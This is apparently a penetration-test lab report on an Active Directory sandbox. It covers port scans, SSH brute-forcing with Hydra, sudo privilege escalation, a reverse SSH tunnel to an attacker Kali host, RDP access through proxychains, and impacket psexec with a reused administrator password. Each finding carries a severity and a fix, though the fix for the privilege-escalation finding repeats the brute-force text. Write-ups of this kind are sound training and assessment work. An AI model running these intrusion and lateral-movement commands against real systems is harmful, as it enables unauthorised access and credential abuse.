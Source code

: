 | **Active Directory Set Port Scan Results IP Address Ports Open** 10.4.4.10 **TCP:** 22, 80 10.5.5.20 **TCP:** 135, 139, 445, 3389 10.5.5.30 **TCP:** 53, 88, 135, 139, 389, 445, 464, 593, 636, 3268, 3269, 3389 **Ajla – 10.4.4.10 Initial Access – Password Brute-Forcing Vulnerability Explanation:** The user account on the Ajla host was protected by a trivial password that was cracked within 5 minutes of brute-forcing. **Vulnerability Fix:** The SSH service should be configured to not accept password-based logins and the user account itself should contain a unique password not contained in the publicly available wordlists. **Severity: Critical** **Steps to reproduce the attack:** rom the initial service scan John discovered that this host is called Ajla. After adding the target’s IP to the /etc/hosts file, the Hydra tool was run against the SSH service using the machine’s DNS name instead of its IP. With the extracted password at hand John was able to log in as ajla using SSH. └─$ hydra \-l ajla \-P /home/kali/rockyou.txt \-T 20 sandbox.local ssh  **Privilege Escalation – Sudo groupVulnerability Explanation:** sudo group allows any user in this group to escalate privileges to the root if they know the user’s password. **Vulnerability Fix:** The SSH service should be configured to not accept password-based logins and the user account itself should contain a unique password not contained in the publicly available wordlists. **Severity: Critical** **Steps to reproduce the attack:** John spotted that the ajla user was a member of the sudo group immediately upon logging in and using the “id” command. And knowing user’s password, he only needed to use a single command “sudo su” in order to obtain a root shell. **Post-Exploitation System Proof screenshot:** After collecting the proof files and establishing a backdoor using SSH, John began the enumeration of the filesystem for the presence of interesting files. He noticed that there was a mounted share originating from the 10.5.5.20 IP. Inspecting a custom sysreport.ps1 script in the /mnt/scripts directory he found cleartext credentials for the “sandbox\\alex” user. Taking into consideration the type of scripts in this directory and the username structure, it seems that the “Poultry” host is a part of the Active Directory environment. John began the lateral movement by establishing a reverse dynamic port forwarding using SSH. First, he generated a new pair of SSH keys and added those to the authorized\_keys file on his Kali VM, then he just needed to issue a single SSH port forwarding command: └─$ ssh-keygen \-t rsa \-N ‘’ \-f \~/.ssh/key └─$ ssh \-f \-N \-R 1080 \-o “UserKnownHostsFile=/dev/null” \-o “StrictHostKeyChecking=no” \-I key [kali@192.168.119.164](mailto:kali@192.168.119.164) With the dynamic reverse tunnel established, John only needed to edit the /etc/proxychains.conf to use the port 1080\. **Poultry – 10.5.5.20 Initial Access – RDP login Steps to reproduce the attack:** with the credentials at hand and a reverse tunnel established, John connected to an RDP session using proxychains accepting the certificate when prompted and entering the retrieved password afterward. └─$ proxychains xfreerdp /d:sandbox /u:alex /v:10.5.5.20 \+clipboard **Post-Exploitation Local Proof Screenshot:**  John noticed the presence of the Thunderbird program on the user’s desktop, and while checking Alex’s inbox he found the email from a local administrator Roger: \[...\] **DC – 10.5.5.30 Initial Access – Remote Commands Execution Steps to reproduce the attack:** John was able to reuse a temporary password that the administrator left for Alex. └─$ proxychains python3 /usr/share/doc/python3-impacket/examples/psexec.py admin:[UWyBGeTp3Bhw7f@10.5.5.30](mailto:UWyBGeTp3Bhw7f@10.5.5.30)  **Post-Exploitation System Proof Screenshot:** ![][image28]
|     |

### Images
